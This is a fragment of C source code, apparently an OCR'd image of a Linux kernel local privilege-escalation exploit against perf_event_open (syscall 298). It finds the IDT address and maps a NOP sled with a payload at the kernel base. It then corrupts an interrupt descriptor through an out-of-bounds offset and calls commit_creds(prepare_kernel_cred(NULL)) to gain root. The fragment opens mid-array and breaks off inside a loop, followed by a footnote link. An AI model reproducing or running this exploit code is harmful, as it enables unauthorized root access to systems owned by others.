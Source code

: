 ```c
             {0xffffffff81ef5940,
              0xffffffff8107ee30,
              0xffffffff8107f0c0}
	    };

void __attribute__((regparm(3))) payload() {
	uint32_t *fixptr = (void*)AB(1);
	// restore the handler
	*fixptr = -1;
	commit_creds_fn commit_creds = (commit_creds_fn)AB(2);
	prepare_kernel_cred_fn prepare_kernel_cred = (prepare_kernel_cred_fn)AB(3);
	commit_creds(prepare_kernel_cred((uint64_t)NULL));
}

void trigger(uint32_t off) {
	uint64_t buf[10] = { 0x4800000001, off, 0, 0, 0, 0x300 };
	int fd = syscall(298, buf, 0, -1, -1, 0);
	assert( !close(fd) );
}

int main(int argc, char **argv) {
	uint64_t off64, needle, kbase, *p;
	uint8_t *code;
	uint32_t int_n, j = 5, target = 1337;
	int offset = 0;
	void *map;

	assert(argc == 2 && "target?");
	assert( (target = atoi(argv[1])) < 3 );

	struct {
		uint16_t limit;
		uint64_t addr;
	} __attribute__((packed)) idt;

	// mmap user-space block so we don't page fault
	// on sw_perf_event_destroy
	assert((map = mmap((void*)BASE, SIZE, 3, 0x32, 0,0)) == (void*)BASE);
	memset(map, 0, SIZE);

	asm volatile("sidt %0" : "=m" (idt));
	kbase = idt.addr & 0xff000000;
	printf("IDT addr = 0x%lx\n", idt.addr);

	assert((code = (void*)mmap((void*)kbase, KSIZE, 7, 0x32, 0, 0)) == (void*)kbase);
	memset(code, 0x90, KSIZE); code += KSIZE-1024; memcpy(code, &payload, 1024);
	memcpy(code-13,"\x0f\x01\xf8\xe8\5\0\0\0\x0f\x01\xf8\x48\xcf", 13);

	// can only play with interrupts 3, 4 and 0x80
	for (int_n = 3; int_n <= 0x80; int_n++) {
		for (off64 = 0x00000000ffffffff; (int)off64 < 0; off64--) {
			int off32 = off64;

			if ((targets[target][0] + ((uint64_t)off32)*24) == (idt.addr + int_n*16 + 8)) {
				offset = off32;
				goto out;
			}
		}
		if (int_n == 4) {
			// shit, let's try 0x80 if the kernel is compiled with
			// CONFIG_IA32_EMULATION
			int_n = 0x80 - 1;
		}
```

[^x64_syscall_table]: <https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/>